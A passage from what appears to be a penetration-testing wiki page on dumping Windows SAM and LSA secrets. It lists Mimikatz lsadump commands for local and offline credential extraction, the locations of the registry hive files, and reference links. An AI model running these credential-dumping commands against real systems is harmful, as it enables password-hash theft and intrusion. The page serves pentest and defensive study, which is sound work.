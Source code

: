 ### Mimikatz

[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from `SAM` and `SECURITY` registry hives (and `SYSTEM` for the encryption keys), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```
{% endtab %}

{% tab title="Down Windows" %}
When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS (e.g. when booting the computer on another operating system). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```
{% endtab %}
{% endtabs %}

Here are some examples and tools that can be used for local/remote/offline dumping.

{% hint style="info" %}
**Nota bene** secretsdump and netexec both extract security questions, if any, from the LSA. They are json formatted, UTF-16-LE encoded, and hex encoded on top of that.
{% endhint %}

## References

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets" %}

{% embed url="http://moyix.blogspot.com/2008/02/syskey-and-sam.html" %}

{% embed url="http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html" %}

{% embed url="https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b" %}

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}
